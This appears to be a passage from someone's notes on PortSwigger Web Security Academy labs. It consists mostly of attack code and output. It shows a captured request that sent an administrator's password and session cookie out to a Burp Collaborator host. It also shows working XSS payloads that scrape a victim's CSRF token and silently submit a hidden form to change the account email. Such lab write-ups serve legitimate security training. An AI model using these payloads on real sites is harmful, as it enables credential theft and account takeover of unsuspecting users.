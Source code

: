 ```
GET /login?u=administrator&p=sqmxi2fwuv96j1zbdsrv&cookie=secret=IpL2ImyUJjruE9Apjx3UjmkAcDqK8gy7 HTTP/1.1
Host: 817ashiw4kgujq6ffba8jouz3q9gx5.burpcollaborator.net
Connection: keep-alive
sec-ch-ua: 
sec-ch-ua-mobile: ?0
```


Then just login `administrator`:`sqmxi2fwuv96j1zbdsrv`

### Exploiting XSS to perform CSRF

https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf

I logged in and found that the csrf token doesn't change
```
<form class="login-form" id="myForm" name="change-email-form" action="/my-account/change-email" method="POST">
<label>Email</label>
<input required type="email" name="email" value="pwned@evil-user.net">
<input required type="hidden" name="csrf" value="M1NzqWCPGSK6pEHZhSPb7YYPScehW4NQ">
<button class='button' type='submit'> Update email </button>
</form>
 </form> <script> document.forms["myForm"].submit(); </script>
```
I checked the solution and apparently the csrf token isn't static after all

Need to retrieve it
https://www.labnol.org/code/19233-submit-forms-with-javascript
```
<form class="login-form" id="myForm" name="change-email-form" action="/my-account/change-email" method="POST"  target="hidden-form" style="display:none">
<label>Email</label>
<input required type="email" name="email" value="pwned@evil-user.net">
<input required type="hidden" name="csrf" id="csrf" value=""> <!--M1NzqWCPGSK6pEHZhSPb7YYPScehW4NQ-->
<button class='button' type='submit'> Update email </button>
</form>
<iframe style="display:none" name="hidden-form"></iframe>
<script> 
var oReq = new XMLHttpRequest();
oReq.open("GET", "https://ac721f6b1e2d3879c0e1036f00bf00b5.web-security-academy.net/my-account");
//oReq.setRequestHeader('Cookie', document.cookie);
oReq.onload = function(e) {
    var rt = oReq.responseText;
    let re = /name="csrf" value="([A-Za-z0-9]+)"+/;
    console.log(rt);
    var tokens = rt.match(re);
    document.getElementById("csrf").value=tokens[1];
    console.log(tokens);
    document.forms["myForm"].submit(); 
}
oReq.send();
</script>
```


# Others